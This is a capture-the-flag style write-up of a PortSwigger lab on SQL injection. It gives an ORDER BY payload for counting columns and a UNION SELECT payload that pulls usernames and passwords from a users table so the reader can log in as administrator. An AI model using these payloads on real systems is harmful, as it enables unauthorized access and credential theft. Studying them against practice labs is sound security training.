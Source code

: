 # SQL injection UNION attack, retrieving data from other tables

**Lab Url**: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

![Lab Description](img/lab-description.png)

## Objective

The lab objective is to retrive data from other tables.

## Solution

We can use the below payload on the category parameter to determine the number of columns returned by the query.

```bash
/filter?category=Gifts'+order+by+2+--
```

If the number of required columns is not equal to `2` you have to adjust your payload using `NULL`.

**The description says that there is a users table with columns called `username` and `password`. Use the following payload to retrieve the contents of `users` table:**

```bash
'+union+select+username,password+from+users+--
```

Retrieve the password of the administrator and log in as an administrator to solve this lab.

![Username and Password](img/username-and-password.png)

![Lab Solved](img/lab-solved.png)
